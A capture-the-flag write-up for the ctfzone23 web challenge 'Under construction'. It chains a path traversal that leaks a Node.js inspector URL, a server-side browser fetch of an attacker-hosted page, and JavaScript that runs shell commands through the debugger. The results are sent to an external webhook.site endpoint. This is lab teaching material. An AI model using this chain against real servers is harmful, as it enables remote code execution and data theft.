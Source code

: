 ```yaml
---
title: "ctfzone23 web/Under construction"
publishDate: "13 Aug 2023"
description: "Author: cpp.dog"
tags: ["web", "ctfzone23"]
---
```


#### Description
We started the development of a new task but havent completed it yet.

The debug version works on the site. We believe there is no way to get the flag now, but you can try!

#### Code inspection

Here's the most important code of our challenge.

`Dockerfile`
```Docker
RUN echo "ctfzone{REDACTED}" > /root/flag.txt
RUN echo "ubuntu ALL = (root) NOPASSWD: /bin/cat /root/flag.txt" >> /etc/sudoers
...
CMD ["bash","-c","node --inspect app.js  1>app-logs.out 2>app-logs.err"]
```

So we can't read `/root/flag.txt` without running `sudo cat`, also the output of `node --inspect` is written to `app-logs.err`. Let's try to access it.

```bash
curl --path-as-is http://web-under-construction-ins1.ctfz.one/../app-logs.err

Debugger listening on ws://127.0.0.1:9229/0937204c-d978-4306-87db-a0915561d563
For help, see: https://nodejs.org/en/docs/inspector
```

That's good, we can access the devtools endpoint to execute any code we want, including bash commands.

```bash
curl 'http://web-under-construction-ins1.ctfz.one/browser?url=https://cpp.dog/static/ctf.html'
```

#### XSS code
```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>
<script>
  window.ws = new WebSocket('ws://127.0.0.1:9229/0937204c-d978-4306-87db-a0915561d563')
  ws.onerror = (e) => {
    fetch("https://webhook.site/[REDACTED]?e=" + btoa(e.toString()))
  }
  ws.onmessage = (e) => {
    fetch("https://webhook.site/[REDACTED]?e=" + btoa(e.data))
  }

  ws.onopen = () => {
    ws.send(JSON.stringify(
      {
        id: 1,
        // Eval js code
        method: "Runtime.evaluate",
        params: {
          // This is important for require()
          includeCommandLineAPI: true, 
          expression: `
(function(){
    cp = require("child_process");          
    result = cp.execSync("sudo /bin/cat /root/flag.txt" ); 
    return new TextDecoder().decode(result);
})();`
        }
      }
    ))
  }

</script>
</body>
</html>
```

#### Flag
`ctfzone{d3bug_m0d3_1s_c00l_f0r_CTF}`